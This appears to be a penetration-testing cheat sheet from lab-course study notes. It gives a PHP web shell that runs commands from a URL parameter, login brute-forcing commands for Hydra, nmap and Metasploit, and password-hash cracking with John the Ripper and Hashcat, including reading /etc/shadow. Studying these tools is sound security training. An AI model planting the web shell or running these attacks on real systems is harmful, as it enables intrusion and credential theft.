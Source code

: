 **Uploading PHP shell**

```php
<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```

**Authentication Cracking with Hydra**

* `hydra -U http-post-form` (get info on a module)
* `hydra -L users.txt -P passwords.txt <service://server> <options>`
* `hydra crackme.site http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L users.txt -P passwords.txt -f -V`
* `hydra 192.168.1.2 ssh -L users.txt -P passwords.txt -f -V`

**Authentication Cracking with nmap**

* `nmap -p 22 --script ssh-brute --script-args userdb=/root/users.txt demo.ine.local`

**Authentication Cracking with metasploit**

* `use auxiliary/scanner/ssh/ssh_login`
* `set RHOSTS demo.ine.local`
* `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
* `set STOP_ON_SUCCESS true`
* `set verbose true`
* `exploit`

**Password cracking using John the Ripper**

* `unshadow /etc/passwd /etc/shadow > crackme.txt`
* `john --incremental -users:<users-list> crackme.txt` (bruteforce, don't use it!)
* `john --show crackme.txt`
* `john --wordlist=<wordlist-filename> crackme.txt`
* `john --wordlist=<wordlist-filename> --rules crackme.txt` (enable word mangling)

**Cracking Password of Microsoft Word file using John the Ripper**

* `/usr/share/john/office2john.py MS_Word_Document.docx > hash`
* `john --wordlist=passwds.txt hash`

**Password cracking using Hashcat**

* `hashcat -m 0 -a 0 -D2 example0.hash example.dict` (m = 0 is MD5)
* `hashcat -m 0 -a 0 -D2 example0.hash example.dict -r custom.rule`

**Windows Shares**

Interesting shares:

* `\\ComputerName\C$` lets an administrator access a volume (C$, D$, E$...)
* `\\ComputerName\admin$` points to the Windows installation directory
